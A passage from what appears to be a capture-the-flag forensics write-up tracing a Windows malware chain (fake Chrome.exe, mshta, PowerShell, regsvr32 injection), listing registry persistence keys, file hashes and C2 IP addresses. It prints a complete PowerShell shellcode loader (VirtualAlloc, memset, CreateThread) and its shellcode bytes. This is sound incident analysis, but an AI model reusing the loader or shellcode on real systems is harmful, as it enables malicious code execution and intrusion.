Bc3NlbWJsaWVzKCl8V2hlcmUgLSBPYmplY3Qgew0KICAgICAgICAgICAgJF8uR2xvYmFsQXNzZW1ibHlDYWNoZSAgLSBBbmQgJF8uTG9jYXRpb24uU3BsaXQoIlwiKVstMV0uRXF1YWxzKCJTeXN0ZW0uZGxsIil9Ow0KI2t1ZWdqDQokVW5zYWZlTmF0aXZlTWV0aG9kcz0kU3lzdGVtQXNzZW1ibHkuR2V0VHlwZSgiTWljcm9zb2Z0LldpbjMyLlVuc2FmZU5hdGl2ZU1ldGhvZHMiKTsNCiNreGp5bncNCnJldHVybiAkVW5zYWZlTmF0aXZlTWV0aG9kcy5HZXRNZXRob2QoIkdldFByb2NBZGRyZXNzIikuSW52b2tlKCRudWxsLEAoW1N5c3RlbS5SdW50aW1lLkludGVyb3BTZXJ2aWNlcy5IYW5kbGVSZWZdKE5ldy1PYmplY3QgU3lzdGVtLlJ1bnRpbWUuSW50ZXJvcFNlcnZpY2VzLkhhbmRsZVJlZigoTmV3LU9iamVjdCBJbnRQdHIpLCRVbnNhZmVOYXRpdmVNZXRob2RzLkdldE1ldGhvZCgiR2V0TW9kdWxlSGFuZGxlIikuSW52b2tlKCRudWxsLCBAKCRNb2R1bGUpKSkpLCAkUHJvY2VkdXJlKSk7DQogICAgICAgIH0NCg0KICAgICAgICANCiN1eGJ1a2ZqcHZ4DQogICAgICAgIFtCeXRlW11dICRzYzMyID0gMHhkYSwgMHhjMSwgMHhiYSwgMHhlNiwgMHg2NCwgMHhmYSwgMHg3MiwgMHhkOSwgMHg3NCwgMHgyNCwgMHhmNCwgMHg1OCwgMHgyYiwgMHhjOSwgMHhiMSwgMHg1OCwgMHgzMSwgMHg1MCwgMHgxNywgMHg4MywgMHhlOCwgMHhmYywgMHgwMywgMHhiNiwgMHg3NywgMHgxOCwgMHg4NywgMHhjYSwgMHgzMCwgMHg1ZiwgMHg4YywgMHhjMiwgMHgyOSwgMHg5ZiwgMHg0ZCwgMHgyMiwgMHhhYSwgMHg2MSwgMHgxZiwgMHg2MywgMHhmYSwgMHgzMywgMHhjZSwgMHgzNSwgMHhiMiwgMHg4MiwgMHgyMiwgMHhkYywgMHgwYSwgMHg2ZSwgMHg5MCwgMHg3ZSwgMHhjMywgMHhmYiwgMHg0NywgMHg2NiwgMHg5YiwgMHg3MCwgMHgzNSwgMHhiNiwgMHg1MywgMHgwYywgMHhjOCwgMHhlNiwgMHgyYiwgMHgxZCwgMHg5YSwgMHg0YywgMHhlNiwgMHg2YywgMHhkNSwgMHg5OSwgMHhiZSwgMHg1ZiwgMHhkNSwgMHhiNSwgMHgwMywgMHhjMSwgMHhhOSwgMHhjNywgMHg1NywgMHgyMSwgMHgxMywgMHgwNiwgMHg2ZSwgMHgyYywgMHhkMiwgMHg4OSwgMHhiMCwgMHhjZCwgMHgzOSwgMHhkYiwgMHg3MywgMHg0MywgMHg4YSwgMHg1MCwgMHgyMSwgMHg0MywgMHg4MSwgMHgyNCwgMHhmYSwgMHhjYiwgMHg5NCwgMHg3OCwgMHg4OSwgMHg0YywgMHgxZSwgMHg3OCwgMHg4ZSwgMHg0YywgMHg1NywgMHhmZCwgMHg0ZSwgMHgzOCwgMHgwMCwgMHhiNSwgMHg0ZiwgMHgxMSwgMHg5ZSwgMHhjZSwgMHgxOCwgMHg4OSwgMHg1YiwgMHg1YiwgMHhkOCwgMHg4OSwgMHgyYSwgMHg1YSwgMHgwOSwgMHgyYSwgMHhmYSwgMHgxNCwgMHg1NiwgMHg2NCwgMHg0MiwgMHgyZiwgMHg5YywgMHhmZiwgMHgwZCwgMHgyZSwgMHgwYiwgMHhiMiwgMHhiYywgMHhmOSwgMHhmYiwgMHg3YywgMHg3ZiwgMHg1NSwgMHhiYSwgMHhiZiwgMHhiNiwgMHhhOCwgMHg3YywgMHg0MSwgMHg4OCwgMHg4YSwgMHg5ZSwgMHgzNCwgMHhmYiwgMHhhNiwgMHg1ZCwgMHhmYiwgMHhkZiwgMHgzZSwgMHgyNywgMHgzYSwgMHhmMSwgMHg0YiwgMHg3ZiwgMHg2NCwgMHhiNSwgMHgzOCwgMHgzZiwgMHhiMSwgMHg3YywgMHgzZiwgMHgxMCwgMHhkZiwgMHgzZiwgMHhiNCwgMHg5YywgMHg2OCwgMHg4NCwgMHg0MSwgMHhkYywgMHg3NCwgMHg0ZCwgMHg1NCwgMHgwZCwgMHhjNSwgMHhjNiwgMHg1MiwgMHgyNSwgMHg4ZSwgMHhkOSwgMHg4YSwgMHg3NCwgMHg1NywgMHg5YiwgMHg3MiwgMHgyOSwgMHgzZSwgMHg0MSwgMHhjMywgMHg4ZCwgMHg4MSwgMHgyYywgMHg4MiwgMHg3NywgMHg0YSwgMHg0YywgMHhlOCwgMHhhOCwgMHgwYiwgMHgwMCwgMHgwZiwgMHg0OCwgMHhkMywgMHhlNSwgMHhiNiwgMHhkMywgMHhhYywgMHg2ZSwgMHg1YSwgMHgwZCwgMHg3YiwgMHg4ZSwgMHhhNSwgMHgzMiwgMHhkOSwgMHgzOCwgMHhlMywgMHhjYywgMHhlMiwgMHhiOCwgMHgxMywgMHhjZiwgMHhlMiwgMHhiOCwgMHgxMywgMHg4NywgMHg2ZiwgMHgzNSwgMHgxMiwgMHgxNiwgMHg3MCwgMHg0NiwgMHg1NSwgMHhhMiwgMHg0MSwgMHhjZCwgMHgzYSwgMHg1NSwgMHg1ZSwgMHgwNCwgMHg3ZiwgMHhhOSwgMHgxNCwgMHgwNSwgMHgyOSwgMHgwYiwgMHhlZCwgMHhlYywgMHg0MCwgMHgzNiwgMHg4YywgMHgwZSwgMHhiZiwgMHgwMSwgMHgyYywgMHgzNCwgMHgxNywgMHhhZSwgMHgzNCwgMHhjOSwgMHg2ZCwgMHg0ZSwgMHhjMywgMHhkMSwgMHgwNCwgMHg0YiwgMHg4ZiwgMHg1NSwgMHhmNSwgMHgyMSwgMHg4MCwgMHgzMywgMHhmOSwgMHg5YywgMHgxZiwgMHg0ZCwgMHgyMywgMHhlMSwgMHg3NSwgMHgyZSwgMHhiZSwgMHg3YSwgMHg1NiwgMHg5ZSwgMHgyMywgMHhhMywgMHhiMSwgMHg4NSwgMHhjMCwgMHhjYiwgMHhkMiwgMHg2NSwgMHg1MCwgMHg2NywgMHg2NCwgMHgyMywgMHgwNiwgMHgwNCwgMHgyZiwgMHhmYywgMHhkNSwgMHhkYywgMHg4NiwgMHg0NCwgMHg3NSwgMHg1YiwgMHg3ZiwgMHgyNywgMHhlZCwgMHhkYywgMHgyNSwgMHhmNCwgMHhiNCwgMHg5MiwgMHg5MywgMHg4MywgMHgyMSwgMHgzZSwgMHg2ZSwgMHgwZCwgMHhjYSwgMHhiMSwgMHgyNSwgMHg4NCwgMHgyNCwgMHg0NywgMHhmMCwgMHg2NSwgMHgzNywgMHhjOCwgMHg2MSwgMHhkOSwgMHhjNCwgMHg2MiwgMHgwZiwgMHhlZSwgMHgxYSwgMHhmYSwgMHg4NCwgMHg2OSwgMHgzZSwgMHhjNSwgMHg1NiwgMHhmMywgMHg4ZSwgMHg0NywgMHgyYywgMHg2ZCwgMHg4MSwgMHhkNywgMHhmZSwgMHgyMiwgMHgzNiwgMHg2YiwgMHhhNiwgMHhhMywgMHhmNSwgMHhiNiwgMHg3ZiwgMHgyYzsNCiAgICAgICAgDQojcXp4dGgNCiAgICAgICAgJHByID0gKFtTeXN0ZW0uUnVudGltZS5JbnRlcm9wU2VydmljZXMuTWFyc2hhbF06OkdldERlbGVnYXRlRm9yRnVuY3Rpb25Qb2ludGVyKChncHJvYyBrZXJuZWwzMi5kbGwgVmlydHVhbEFsbG9jKSwgKGdkZWxlZ2F0ZSBAKFtJbnRQdHJdLCBbVUludDMyXSwgW1VJbnQzMl0sIFtVSW50MzJdKSAoW1VJbnQzMl0pKSkpLkludm9rZSgwLCAkc2MzMi5MZW5ndGgsIDB4MzAwMCwgMHg0MCk7DQogICAgICAgIA0KI3RqbXRocWMNCiAgICAgICAgaWYgKCRwciAgLSBuZSAwKSAgew0KICAgICAgICAgICAgJG1lbXNldCA9IChbU3lzdGVtLlJ1bnRpbWUuSW50ZXJvcFNlcnZpY2VzLk1hcnNoYWxdOjpHZXREZWxlZ2F0ZUZvckZ1bmN0aW9uUG9pbnRlcigoZ3Byb2MgbXN2Y3J0LmRsbCBtZW1zZXQpLCAoZ2RlbGVnYXRlIEAoW1VJbnQzMl0sIFtVSW50MzJdLCBbVUludDMyXSkgKFtJbnRQdHJdKSkpKTsNCiAgICAgICAgICAgIA0KI29scGF2cmFicXoNCiAgICAgICAgICAgIGZvciAoJGkgPSAwOw0KICAgICAgICAgICAgJGkgIC0gbGUgKCRzYzMyLkxlbmd0aCAtIDEpOw0KICAgICAgICAgICAgJGkrKykgew0KICAgICAgICAgICAgICAgICRtZW1zZXQuSW52b2tlKCgkcHIgKyAkaSksICRzYzMyWyRpXSwgMSkNCiAgICAgICAgICAgIH07DQogICAgICAgICAgICANCiNrcnl0DQogICAgICAgICAgICAoW1N5c3RlbS5SdW50aW1lLkludGVyb3BTZXJ2aWNlcy5NYXJzaGFsXTo6R2V0RGVsZWdhdGVGb3JGdW5jdGlvblBvaW50ZXIoKGdwcm9jIGtlcm5lbDMyLmRsbCBDcmVhdGVUaHJlYWQpLCAoZ2RlbGVnYXRlIEAoW0ludFB0cl0sIFtVSW50MzJdLCBbVUludDMyXSwgW1VJbnQzMl0sIFtVSW50MzJdLCBbSW50UHRyXSkgKFtJbnRQdHJdKSkpKS5JbnZva2UoMCwgMCwgJHByLCAkcHIsIDAsIDApOw0KICAgICAgICAgICAgDQojc3F6dXp5DQogICAgICAgIH0NCg0KICAgICAgICBzbGVlcCgxMjAwKTsNCiAgICB9IGNhdGNoIHt9DQoNCiAgICBleGl0Ow0KICAgIA0KI2FrZHVhaA0KI3BpcnZuZXpucXZ2Y2Z5cWxiZHRmaGg=')))";
            B4Rcr8 = z9E.Run("C:\\Windows\\SysWOW64\\WindowsPowerShell\\v1.0\\powershell.exe iex $env:legtuq", 0, 1);
        } catch(e) {}
        
        close();
        ```
        
    5. Generated decoded PS: /tmp/recovered_flag/orhmkbye_stage.ps1
        
        ```jsx
        #ggrfsblpbps
        sleep(15);
        try {
            
        #elbcil
            function gdelegate {
                
        #ddzl
                Param ([Parameter(Position = 0, Mandatory = $True)] [Type[]] $Parameters, [Parameter(Position = 1)] [Type] $ReturnType = [Void]);
                
        #nnret
                $TypeBuilder = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New - Object System.Reflection.AssemblyName("ReflectedDelegate")), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule("InMemoryModule", $false).DefineType("XXX", "Class,Public,Sealed,AnsiClass,AutoClass", [System.MulticastDelegate]);
                
        #lqyfk
                $TypeBuilder.DefineConstructor("RTSpecialName,HideBySig,Public", [System.Reflection.CallingConventions]::Standard, $Parameters).SetImplementationFlags("Runtime,Managed");
                
        #lrdixh
                $TypeBuilder.DefineMethod("Invoke", "Public,HideBySig,NewSlot,Virtual", $ReturnType, $Parameters).SetImplementationFlags("Runtime,Managed");
                
        #oopd
                return $TypeBuilder.CreateType();
            }
        
            
        #prrktkr
            function gproc {
                
        #gmhwnsk
                Param ([Parameter(Position = 0, Mandatory = $True)] [String] $Module, [Parameter(Position = 1, Mandatory = $True)] [String] $Procedure);
                
        #ykruq
                $SystemAssembly = [AppDomain]::CurrentDomain.GetAssemblies()|Where - Object {
                    $_.GlobalAssemblyCache  - And $_.Location.Split("\")[-1].Equals("System.dll")};
        #kuegj
        $UnsafeNativeMethods=$SystemAssembly.GetType("Microsoft.Win32.UnsafeNativeMethods");
        #kxjynw
        return $UnsafeNativeMethods.GetMethod("GetProcAddress").Invoke($null,@([System.Runtime.InteropServices.HandleRef](New-Object System.Runtime.InteropServices.HandleRef((New-Object IntPtr),$UnsafeNativeMethods.GetMethod("GetModuleHandle").Invoke($null, @($Module)))), $Procedure));
                }
        
                
        #uxbukfjpvx
                [Byte[]] $sc32 = 0xda, 0xc1, 0xba, 0xe6, 0x64, 0xfa, 0x72, 0xd9, 0x74, 0x24, 0xf4, 0x58, 0x2b, 0xc9, 0xb1, 0x58, 0x31, 0x50, 0x17, 0x83, 0xe8, 0xfc, 0x03, 0xb6, 0x77, 0x18, 0x87, 0xca, 0x30, 0x5f, 0x8c, 0xc2, 0x29, 0x9f, 0x4d, 0x22, 0xaa, 0x61, 0x1f, 0x63, 0xfa, 0x33, 0xce, 0x35, 0xb2, 0x82, 0x22, 0xdc, 0x0a, 0x6e, 0x90, 0x7e, 0xc3, 0xfb, 0x47, 0x66, 0x9b, 0x70, 0x35, 0xb6, 0x53, 0x0c, 0xc8, 0xe6, 0x2b, 0x1d, 0x9a, 0x4c, 0xe6, 0x6c, 0xd5, 0x99, 0xbe, 0x5f, 0xd5, 0xb5, 0x03, 0xc1, 0xa9, 0xc7, 0x57, 0x21, 0x13, 0x06, 0x6e, 0x2c, 0xd2, 0x89, 0xb0, 0xcd, 0x39, 0xdb, 0x73, 0x43, 0x8a, 0x50, 0x21, 0x43, 0x81, 0x24, 0xfa, 0xcb, 0x94, 0x78, 0x89, 0x4c, 0x1e, 0x78, 0x8e, 0x4c, 0x57, 0xfd, 0x4e, 0x38, 0x00, 0xb5, 0x4f, 0x11, 0x9e, 0xce, 0x18, 0x89, 0x5b, 0x5b, 0xd8, 0x89, 0x2a, 0x5a, 0x09, 0x2a, 0xfa, 0x14, 0x56, 0x64, 0x42, 0x2f, 0x9c, 0xff, 0x0d, 0x2e, 0x0b, 0xb2, 0xbc, 0xf9, 0xfb, 0x7c, 0x7f, 0x55, 0xba, 0xbf, 0xb6, 0xa8, 0x7c, 0x41, 0x88, 0x8a, 0x9e, 0x34, 0xfb, 0xa6, 0x5d, 0xfb, 0xdf, 0x3e, 0x27, 0x3a, 0xf1, 0x4b, 0x7f, 0x64, 0xb5, 0x38, 0x3f, 0xb1, 0x7c, 0x3f, 0x10, 0xdf, 0x3f, 0xb4, 0x9c, 0x68, 0x84, 0x41, 0xdc, 0x74, 0x4d, 0x54, 0x0d, 0xc5, 0xc6, 0x52, 0x25, 0x8e, 0xd9, 0x8a, 0x74, 0x57, 0x9b, 0x72, 0x29, 0x3e, 0x41, 0xc3, 0x8d, 0x81, 0x2c, 0x82, 0x77, 0x4a, 0x4c, 0xe8, 0xa8, 0x0b, 0x00, 0x0f, 0x48, 0xd3, 0xe5, 0xb6, 0xd3, 0xac, 0x6e, 0x5a, 0x0d, 0x7b, 0x8e, 0xa5, 0x32, 0xd9, 0x38, 0xe3, 0xcc, 0xe2, 0xb8, 0x13, 0xcf, 0xe2, 0xb8, 0x13, 0x87, 0x6f, 0x35, 0x12, 0x16, 0x70, 0x46, 0x55, 0xa2, 0x41, 0xcd, 0x3a, 0x55, 0x5e, 0x04, 0x7f, 0xa9, 0x14, 0x05, 0x29, 0x0b, 0xed, 0xec, 0x40, 0x36, 0x8c, 0x0e, 0xbf, 0x01, 0x2c, 0x34, 0x17, 0xae, 0x34, 0xc9, 0x6d, 0x4e, 0xc3, 0xd1, 0x04, 0x4b, 0x8f, 0x55, 0xf5, 0x21, 0x80, 0x33, 0xf9, 0x9c, 0x1f, 0x4d, 0x23, 0xe1, 0x75, 0x2e, 0xbe, 0x7a, 0x56, 0x9e, 0x23, 0xa3, 0xb1, 0x85, 0xc0, 0xcb, 0xd2, 0x65, 0x50, 0x67, 0x64, 0x23, 0x06, 0x04, 0x2f, 0xfc, 0xd5, 0xdc, 0x86, 0x44, 0x75, 0x5b, 0x7f, 0x27, 0xed, 0xdc, 0x25, 0xf4, 0xb4, 0x92, 0x93, 0x83, 0x21, 0x3e, 0x6e, 0x0d, 0xca, 0xb1, 0x25, 0x84, 0x24, 0x47, 0xf0, 0x65, 0x37, 0xc8, 0x61, 0xd9, 0xc4, 0x62, 0x0f, 0xee, 0x1a, 0xfa, 0x84, 0x69, 0x3e, 0xc5, 0x56, 0xf3, 0x8e, 0x47, 0x2c, 0x6d, 0x81, 0xd7, 0xfe, 0x22, 0x36, 0x6b, 0xa6, 0xa3, 0xf5, 0xb6, 0x7f, 0x2c;
                
        #qzxth
                $pr = ([System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((gproc kernel32.dll VirtualAlloc), (gdelegate @([IntPtr], [UInt32], [UInt32], [UInt32]) ([UInt32])))).Invoke(0, $sc32.Length, 0x3000, 0x40);
                
        #tjmthqc
                if ($pr  - ne 0)  {
                    $memset = ([System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((gproc msvcrt.dll memset), (gdelegate @([UInt32], [UInt32], [UInt32]) ([IntPtr]))));
                    
        #olpavrabqz
                    for ($i = 0;
                    $i  - le ($sc32.Length - 1);
                    $i++) {
                        $memset.Invoke(($pr + $i), $sc32[$i], 1)
                    };
                    
        #kryt
                    ([System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((gproc kernel32.dll CreateThread), (gdelegate @([IntPtr], [UInt32], [UInt32], [UInt32], [UInt32], [IntPtr]) ([IntPtr])))).Invoke(0, 0, $pr, $pr, 0, 0);
                    
        #sqzuzy
                }
        
                sleep(1200);
            } catch {}
        
            exit;
            
        #akduah
        #pirvneznqvvcfyqlbdtfhh
        ```
        
    6. Extracted shellcode: /tmp/recovered_flag/orhmkbye_sc32.bin
        
        ```jsx
        dac1 bae6 64fa 72d9 7424 f458 2bc9 b158
        3150 1783 e8fc 03b6 7718 87ca 305f 8cc2
        299f 4d22 aa61 1f63 fa33 ce35 b282 22dc
        0a6e 907e c3fb 4766 9b70 35b6 530c c8e6
        2b1d 9a4c e66c d599 be5f d5b5 03c1 a9c7
        5721 1306 6e2c d289 b0cd 39db 7343 8a50
        2143 8124 facb 9478 894c 1e78 8e4c 57fd
        4e38 00b5 4f11 9ece 1889 5b5b d889 2a5a
        092a fa14 5664 422f 9cff 0d2e 0bb2 bcf9
        fb7c 7f55 babf b6a8 7c41 888a 9e34 fba6
        5dfb df3e 273a f14b 7f64 b538 3fb1 7c3f
        10df 3fb4 9c68 8441 dc74 4d54 0dc5 c652
        258e d98a 7457 9b72 293e 41c3 8d81 2c82
        774a 4ce8 a80b 000f 48d3 e5b6 d3ac 6e5a
        0d7b 8ea5 32d9 38e3 cce2 b813 cfe2 b813
        876f 3512 1670 4655 a241 cd3a 555e 047f
        a914 0529 0bed ec40 368c 0ebf 012c 3417
        ae34 c96d 4ec3 d104 4b8f 55f5 2180 33f9
        9c1f 4d23 e175 2ebe 7a56 9e23 a3b1 85c0
        cbd2 6550 6764 2306 042f fcd5 dc86 4475
        5b7f 27ed dc25 f4b4 9293 8321 3e6e 0dca
        b125 8424 47f0 6537 c861 d9c4 620f ee1a
        fa84 693e c556 f38e 472c 6d81 d7fe 2236
        6ba6 a3f5 b67f 2c
        ```
        
    7. Emulation-decoded shellcode: /tmp/recovered_flag/orhmkbye_sc32_decoded.bin
        
        ```jsx
        dac1 bae6 64fa 72d9 7424 f458 2bc9 b158
        3150 1783 e8fc 0350 13e2 f5fc 4883 e4f0
        e8c0 0000 0041 5141 5052 5156 4831 d265
        488b 5260 488b 5218 488b 5220 488b 7250
        480f b74a 4a4d 31c9 4831 c0ac 3c61 7c02
        2c20 41c1 c90d 4101 c1e2 ed52 4151 488b
        5220 8b42 3c48 01d0 8b80 8800 0000 4885
        c074 6748 01d0 508b 4818 448b 4020 4901
        d0e3 5648 ffc9 418b 3488 4801 d64d 31c9
        4831 c0ac 41c1 c90d 4101 c138 e075 f14c
        034c 2408 4539 d175 d858 448b 4024 4901
        d066 418b 0c48 448b 401c 4901 d041 8b04
        8848 01d0 4158 4158 5e59 5a41 5841 5941
        5a48 83ec 2041 52ff e058 4159 5a48 8b12
        e957 ffff ff5d 48ba 0100 0000 0000 0000
        488d 8d01 0100 0041 ba31 8b6f 87ff d5bb
        f0b5 a256 41ba a695 bd9d ffd5 4883 c428
        3c06 7c0a 80fb e075 05bb 4713 726f 6a00
        5941 89da ffd5 636d 6420 2f63 2027 6563
        686f 2056 6b49 455a 7359 5763 3649 466c
        7a66 6e68 475a 4359 704a 7967 6d4a 7967
        714b 6930 754a 3373 6f65 5373 7465 3330
        714b 7964 394c 7930 724b 6e6f 704c 536b
        7359 673d 3d27 00
        ```
        
    8. Intermediate transformed bytes: /tmp/recovered_flag/flag_transform.bin
    9. Token file: /tmp/recovered_flag/flag_token.txt
    
2. IOC list
    
    File hashes:
    
    - C:\Users\FlagYard\Desktop\Chrome.exe SHA256
    8655D2CBB9CDA288943B6C3DEEBD694CB92A9236A80555E6CC425D551C55FEE3 (from Sysmon)
    - 815624.bat (/C/Users/FlagYard/AppData/Local/
    ce3f5d/815624.bat) SHA256 1554002ed3d543c0cfe2cf336f4c04f5924d3d15077ef2a5d5971c0444b6e0db
    - dcf991.9f2207a (/C/Users/FlagYard/AppData/Local/ce3f5d/dcf991.9f2207a) SHA256 60f248283b2939ce08ada1c94026dc668aecab8547398641af59148e65f8dd7c
    - Decoded Shikata shellcode SHA256
    168b2d2ecdf53359f6d0c09a7108a31f60ecc9c0005e8d1c84a4d7b6545f6789
    - Final PE payload SHA256
    0bb6bc10310104bfa17a241cf3548c29f55b55434b455b0196b6ce9e590ebc02
    
    Registry IOCs:
    
    - HKCU\software\99qzf2N\hDF82oB
    - HKCU\software\99qzf2N\WmmbDZ
    - HKCU\software\lirs\orhmkbye
    - HKCU\Software\Microsoft\Windows\CurrentVersion\Run (value:C:\Users\FlagYard\AppData\Local\ce3f5d\[815624.ba](http://815624.ba/)t)
    - HKU\<SID>_Classes\bfcf36\shell\open\command
    (mshta JS launcher)
    
    Network IOCs observed (regsvr32 connections):
    
    - 13.224.161.254
    - 117.135.215.187
    - 185.139.2.168
    - 162.243.38.153
    - 154.221.98.239
    
    
    
    ---
    
    ## Summary
    
    Attack Chain
    
    - Initial execution was user-launched `Chrome.exe](C/Users/FlagYard/Desktop/Chrome.exe` from Desktop at 2025-06-0311:50:34.836 (from Sysmon), masquerading asPDF-XChange Viewer SHA256:8655d2cbb9cda288943b6c3deebd694cb92a9236a80555e6cc425d551c55fee3).
    - Very shortly after, mshta.exe was launched with inline JS that reads and evals registry JS from HKCU\\software\\99qzf2N\\hDF82oB (seen in [sysmon_u16.txt](https://www.notion.so/tmp/sysmon_u16.txt) around 11:50:35.894).
    - mshta.exe then launched PowerShell (iex $env:zpztyd) to run in-memory shellcode loaders (see [decoded_stage2.js](/tmp/decoded_stage2.js) and [stage3.ps1](/tmp/stage3.ps1)).
    - Later, Chrome.exe injected into regsvr32.exe (2025-06-03 11:53:35.699), and regsvr32.exe performed the persistence setup and follow-on execution.
    
    Persistence
    
    - Run key persistence:
        - HKU\\...\\Software\\Microsoft\\Windows\\CurrentVersion\\Run\\ -> "C:\\Users\\FlagYard\\AppData\\Local\\ce3f5d\\815624.bat"
    - Secondary trigger key:
        - HKU\\...\\_Classes\\bfcf36\\shell\\open\\command\\(Default) -> mshta JS that reads HKCU\\software\\lirs\\orhmkbye
    - On-disk launcher:
        - [815624.bat]`/C/Users/FlagYard/AppData/Local/ce3f5d/815624.bat"` runs[dcf991.9f2207a]`/C/Users/FlagYard/AppData/Local/ce3f5d/dcf991.9f2207a`.
    
    Final Payload (What It Does)
    
    - Final stage is registry-resident in HKCU\\Software\\99qzf2N\\WmmbDZ (very large value).
    - The 2908-byte shellcode (from PowerShell Operational logs) resolves RegOpenKeyExA/RegQueryValueExA, reads WmmbDZ, RC4-decrypts it, and reflectively loads a PE in memory.
    - I decrypted it successfully from artifact
    bytes:
        - Output PE: /tmp/final_payload.bin
        - SHA256:
        0bb6bc10310104bfa17a241cf3548c29f55b55434b455b0196b6ce9e590ebc02
        - PE32, ~438 KB
    - Behavior from payload strings/capabilities: dynamic API resolution, WinSock/network (connect, gethostbyname), HTTP POST + browser-like User-Agent strings, and in-memory execution flow (consistent with backdoor/downloader behavior, not just a one-shot dropper).
    
    IOCs
    
    - Files/hashes:
        - [hDF82oB] SHA256:
        7f3b68e6d921f29cb721fc9aceb051178e7aa37d29ab761c85358dbd11121f72
        - [815624.bat](/C/Users/FlagYard/AppData/
        Local/ce3f5d/815624.bat) SHA256:
        1554002ed3d543c0cfe2cf336f4c04f5924d3d15077ef2a5d5971c0444b6e0db
        - [dcf991.9f2207a](/C/Users/FlagYard/AppData/
        Local/ce3f5d/dcf991.9f2207a) SHA256:
        60f248283b2939ce08ada1c94026dc668aecab8547398641af59148e65f8dd7c
        - /tmp/final_payload.bin SHA256:
        0bb6bc10310104bfa17a241cf3548c29f55b55434b455b0196b6ce9e590ebc02
        
        
        
        
        
        
        
    - Registry:
        - HKCU\\Software\\99qzf2N\\hDF82oB
        - HKCU\\Software\\99qzf2N\\WmmbDZ
        - HKCU\\Software\\lirs\\orhmkbye
        - HKU\\...\\_Classes\\bfcf36\\shell\\open\
        \command\\(Default)
        - HKU\\...\\Software\\Microsoft\\Windows\
        \CurrentVersion\\Run\\
    - Process chain:
        - Chrome.exe -> mshta.exe -> powershell.exe
        - Chrome.exe -> injects regsvr32.exe
    - C2/egress IPs observed from regsvr32.exe:
        - 13.224.161.254
        - 117.135.215.187
        - 185.139.2.168
        - 162.243.38.153
        - 154.221.98.239
    
    The shellcode decodes to a windows/x64/exec stub that runs:
    
    cmd /c 'echo VkIEZsYWc6IFlzfnhGZCYpJygmJygqKi0uJ3soeSste30qKyd9Ly0rKnopLSksYg=='